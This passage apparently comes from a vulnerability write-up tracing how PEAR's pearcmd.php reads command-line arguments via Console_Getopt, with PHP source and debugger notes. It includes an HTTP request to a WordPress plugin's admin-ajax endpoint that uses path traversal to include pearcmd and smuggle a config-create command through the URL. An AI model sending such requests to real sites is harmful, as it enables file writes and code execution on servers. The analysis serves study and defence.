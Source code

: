 Then `$argv` is initialized:

```php
$argv = Console_Getopt::readPHPArgv();
```

```php {title="php/Console/Getopt.php" hl_lines=[4,12]}
public static function readPHPArgv()
{
    global $argv;
    if (!is_array($argv)) {
        if (!@is_array($_SERVER['argv'])) {
            if (!@is_array($GLOBALS['HTTP_SERVER_VARS']['argv'])) {
                $msg = "Could not read cmd args (register_argc_argv=Off?)";
                return PEAR::raiseError("Console_Getopt: " . $msg);
            }
            return $GLOBALS['HTTP_SERVER_VARS']['argv'];
        }
        return $_SERVER['argv'];
    }
    return $argv;
}
```

If `$argv` is not an array (i.e., no valid data), the function tries to find the equivalent in `$_SERVER['argv']` and return it — that is, the `search-word` parts we pass in the URL. Example:

```http
GET /wp-admin/admin-ajax.php?action=geo_mashup_query&object_ids=2&template=../../../../../../../usr/local/lib/php/pearcmd&+config-create+/test_root_path+test_filename.php HTTP/1.1
```

Observed in the debugger:

![argv1](argv1.png "Value of `$argv` in the debugger")

Next `$argv` has its first element removed and is passed to `Console_Getopt::getopt2()`, the return value assigned to `$options`:

```php
array_shift($argv);
$options = Console_Getopt::getopt2($argv, "c:C:d:D:Gh?sSqu:vV");
```

The value is now:

![argv\_options](argv_options.png "Values of `$argv` and `$options` in the debugger")
